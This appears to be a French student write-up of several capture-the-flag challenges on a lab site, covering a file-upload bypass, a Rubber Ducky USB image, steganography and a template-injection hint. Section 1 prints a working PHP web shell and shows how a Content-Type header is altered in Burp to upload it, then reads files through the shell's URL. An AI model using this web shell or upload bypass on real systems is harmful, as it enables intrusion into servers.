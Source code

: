 # Secu
## 1 . Upload_medium

### A. 
Il faut tout d'abord créer un fichier en `.php` comme par exemple, `payload.php`.
Ce dossier devra contenir les lignes suivantes :
```
<?php
echo shell_exec($_GET['cmd']);
?>*
```
Ensuite, avant de l'upload, nous utiliserons une extension de navigateur comme par exemple Foxy proxy et le logiciel Burp afin de pouvoir changer le fichier envoyé.
Grace a burp, nous devons modifier la ligne :
`Content-Type: application/octet-stream`
par :
`Content-Type: image/png`
Il faut ensuite appuyer sur forward dans Burp.
et enfin désactiver notre proxy.

### B.
On arrive sur la partie délicate, il faut ouvrir le fichier étant apparu sur la page.
Grace au php, nous avons accès au cmd depuis le lien du site, il suffit de le modifier un peu:
`http://ctf-labo.cyber-stuff.net/upload_medium/uploads/test.php?cmd=`

donc il suffit de mettre:
`ls` qui permet de lire le dossier
`%20` qui place des espaces
`-la` qui permet de voir les fichiers cachés
`../` qui permet de revenir en arrière

dans un vrai cmd, la commande nous donnerais:
`ls -la ../../`
et parmis les fichiers, nous voyeons un dossier qui s'appelle `.flag`

ensuite, nous remplaçons `ls -la` (ls%20-la) par `cat%20` et on rajoute a la fin le nom du fichier, se qui nous ouvre le fichier avec le flag a l'intérieur

`http://ctf-labo.cyber-stuff.net/upload_medium/uploads/test.php?cmd=cat%20../../.flag`




## 2 . The DSI's yellow usb key

Le rubber ducky hack, est donc un fichier intégré a une clef USB qui tape des commandes a notre place, ce qui permet de rapidement pirater une session laissée ouverte.

Donc une fois le fichier donné téléchargé, il faut d'abord le décomprésser (comme Winrar ou 7-zip)

et vous optenez un fichier `.dd`

Sous mac, il suffit d'entrer la commande 
`hdiutil attach -imagekey diskimage-class=CRawDiskImage dump.dd`
se qui nous donne un fichier `inject.bin`
et ensuite, nous utilisons un site afin de décoder le fichier inject.bin : 
`https://ducktoolkit.com/decoder/`

le decodage nous donne l'adresse d'un fichier exe qui est en faite un .txt contenant le flag


## 3 . I Lowe runnig

Cette fois si, c'est plutôt simple, il suffit de télécharger l'image et de l'upload sur ce site : 
`https://incoherency.co.uk/image-steganography/#unhide`
L'image contenait un texte caché étant donc le flag.

## 4 . Find Patrick's password
ALEX LE BOSS


## 5 . Disrupt me

`http://ctf-labo.cyber-stuff.net/disrupt-me/hydtjtcj` 

affiche le message :

`Sorry, flask is not ready to be disrupted !`

Ce message indique que le site utilise du flask

donc sur internet on a trouvé un petit tuto

`https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections`

*** Export HTML ***
*******************
<img src="/images/image.png" alt="Soluce">